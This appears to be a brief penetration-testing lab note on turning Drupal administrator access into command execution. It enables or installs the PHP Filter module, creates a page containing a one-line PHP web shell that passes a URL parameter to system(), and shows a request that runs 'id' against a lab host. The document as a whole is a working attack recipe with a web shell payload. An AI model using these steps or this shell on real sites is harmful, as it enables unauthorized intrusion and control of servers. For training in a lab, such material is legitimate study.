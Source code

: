 ## Before version 8 

If admin -> Modules -> PHP Filter -> Enable -> Save Configuration 

Go to Permissions -> Under Filter -> use PHP code text format -> Enable it from Administrator -> Save Permissions



Content -> Add content and create a Basic page

```php
<?php
system($_GET['0']);
?>
```

Text format -> PHP Code 
then click save, it will auto redirect you to the new page where we can execute our commands

```
http://drupal-qa.inlanefreight.local/node/3?0=id
```
## After Version 8 
we have to install the module ourselves
```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Administration -> Reports -> Available Updates -> Upload a module -> Install 

content -> Create a new basic page -> do the same as the before version 8 

